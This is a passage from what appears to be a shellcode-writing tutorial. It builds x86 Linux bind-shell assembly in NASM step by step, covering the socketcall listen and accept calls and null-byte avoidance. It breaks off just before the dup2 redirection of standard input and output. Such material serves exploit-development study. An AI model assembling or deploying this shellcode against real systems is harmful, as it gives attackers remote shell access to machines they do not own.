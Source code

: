 ```nasm
xor eax, eax
```

## Configuring the Socket to Listen
	
Once again we'll be using socketcall(), this time with the SYS_LISTEN option (4) along with its two arguments which are our socket and the backlog argument.

Currently EAX contains 0, so we'll PUSH that along with our socket still stored in EDI.

```nasm
push eax
push edi
mov ecx, esp
```

Now the arguments are setup on the stack, we will need to store 4 in EBX and 0x66 for our socketcall in EAX. Since EBX is currently set to 2, we can simply increment it twice. Again, we'll need to MOV 0x66 into AL.

```nasm
inc ebx
inc ebx
mov al, 0x66
int 0x80
```

## Accept Connections

Referring back to our C code again we can see that accept was setup as follows:

```c
accept(host_sock, NULL, NULL);
```

First things first, let's setup the stack by pushing two 0's. To avoid nulls in the shellcode we'll XOR EDX with itself and then PUSH it twice to the stack.

```nasm
xor edx, edx
push edx
push edx
```

Next we'll push our socketfd to the stack from EDI. We also know that SYS_ACCEPT is defined as 5. EBX is already at 4, so we can do another increment here. The rest should be self-explanatory by now. 

```nasm
push edi
inc ebx
mov ecx, esp
mov al, 0x66
int 0x80
```

Our client socket will be returned into EAX so we'll need to preserve that by moving it out. Since our next step will be redirecting STDIN, STDOUT, and STDERR we can move this into EBX since it will need to be there as an argument for the dup2() syscall. 
